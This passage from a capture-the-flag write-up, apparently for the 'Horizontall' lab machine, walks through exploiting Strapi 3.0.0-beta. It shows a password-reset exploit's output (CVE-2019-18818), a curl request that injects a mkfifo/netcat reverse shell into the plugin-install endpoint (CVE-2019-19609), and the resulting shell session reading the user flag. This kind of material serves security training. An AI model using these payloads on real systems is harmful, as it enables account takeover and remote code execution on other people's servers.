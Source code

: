 ```
⛩\> python strapi_poc.py admin@horizontall.htb http://api-prod.horizontall.htb master1

[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzk3MzEwLCJleHAiOjE2MzI5ODkzMTB9.0_Qr-B6HXYnoHxtf2n1KymbICCMRIvzix5mEVXXZYM4","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}
```

Let’s login with new creds.

![Screen Shot 2021-08-31 at 02.46.43.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/B5CDBA83-3830-450E-A5CB-463860A569A2/94554C4B-4352-4499-A25D-36BAC0606CAD_2/Screen%20Shot%202021-08-31%20at%2002.46.43.png)

This beta version is also vulnerable to remote code execution. CVE-2019-19609

[Remote code execution in Strapi](https://www.cybersecurity-help.cz/vdb/SB2019120606)

[https://bittherapy.net/post/strapi-framework-remote-code-execution/](https://bittherapy.net/post/strapi-framework-remote-code-execution/)

```
⛩\> curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwNDAzODA4LCJleHAiOjE2MzI5OTU4MDh9.7Ucs08rDF8lnkP7xBdEHMgipcNRddw4jZ_MYcy3grxg' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.209 8001 >/tmp/f)\",\"port\":\"1337\"}' $'http://api-prod.horizontall.htb/admin/plugins/install' --proxy http://127.0.0.1:8080
```

Using curl we can pass the payload to get reverse connection. You can get JWT by exploiting CVE-2019-18818 vulnerability and you need to capture this curl request in Burp to modify missing parts of the request.

![Screen Shot 2021-08-31 at 03.00.22.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/B5CDBA83-3830-450E-A5CB-463860A569A2/5714E481-20FD-4EC1-901F-8DA5D5A5C2A3_2/Screen%20Shot%202021-08-31%20at%2003.00.22.png)

![Screen Shot 2021-08-31 at 03.00.45.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/B5CDBA83-3830-450E-A5CB-463860A569A2/09410D47-3023-43FA-809E-7E766A00C9E8_2/Screen%20Shot%202021-08-31%20at%2003.00.45.png)

As you can see, three characters were missing from the request. Make sure to run netcat listener to receive reverse connection.

```
⛩\> pwncat -l -p 8001
[09:55:24] Welcome to pwncat 🐈!                                                                                                                __main__.py:143
[09:55:51] received connection from 10.10.11.105:57480                                                                                               bind.py:57
[09:55:54] 0.0.0.0:8001: upgrading from /bin/dash to /bin/bash                                                                                   manager.py:502
[09:55:57] 10.10.11.105:57480: registered new host w/ db                                                                                         manager.py:502
(local) pwncat$
(remote) strapi@horizontall:/opt/strapi/myapi$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)

(remote) strapi@horizontall:/opt/strapi/myapi$ cat /home/developer/user.txt
24f38c263eb2820e67533c04310ca9b7
```
